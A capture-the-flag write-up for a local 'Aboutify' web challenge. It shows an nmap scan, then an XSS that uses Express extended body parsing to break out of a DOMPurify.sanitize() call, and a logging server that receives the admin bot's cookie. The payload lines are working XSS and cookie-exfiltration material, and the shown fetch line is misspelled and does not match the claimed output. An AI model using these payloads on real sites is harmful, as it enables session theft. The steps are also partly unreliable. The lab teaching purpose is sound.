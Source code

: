 # Aboutify writeup

We follow the README, and get everything set up. Then we scan with `nmap localhost -Pn`

We should get something like this:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-01 11:47 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000080s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
```

3000, there is the server listening. On Opening http://localhost:3000/, we will be greeted with a form, that asks us to input our name with a aboutMe-page. We try inserting `<h1>isThisWorking?</h1><img src="/abc" onerror="alert(location.origin);" />`. We see the text "isThisWorking" in an h1, but we don't get a alert. On inspecting the sourcecode, we see, the onerror attribute was removed. Why? Because DOMPurify sanitized our evil html. Back on the homepage, we see the quote "fixed xss in /source" in a comment. On visiting /source, we will be greeted with the source file. The reviewing endpoint, gives us a hint, that clicking on the button "Show Alex" the headless browser visits the page, so we need to find a way to inject xss.

in /source we should have seen, that extended is set to true in the url-encoded bodyparsing. that means, we can pass objects, with x[y] = z in the headers. Using that, we can submit a aboutMe page with the headers name="a" and aboutMe[-alert('1')-]=+1, what gives us in the html-script tag following:

```js
DOMPurify.sanitize(""-alert('1')-":"+1);
```
so, we found succesfully a xss vulnerability.

Spin up a logging express server using
```js
const app = require("express")();app.get("*",(req,res)=>{console.log(req.url);res.send("")});app.listen(2000);
```
That will listen on port 2000 and log the urls. Set now the headers like that:
name=b
aboutMe[-fethc('http://localhost:2000/')-]=+1
and visit /u/b. Click on "Show Alex" and boom, you should see "/?cookie=CTF%7BCh3ck7yp3s%7D". Decode the address with anything, you want, for example node using
```js
new URL("http://localhost:2000/?cookie=CTF%7BCh3ck7yp3s%7D").searchParams.get("cookie");
```
It should give you `CTF{Ch3ck7yp3s}`.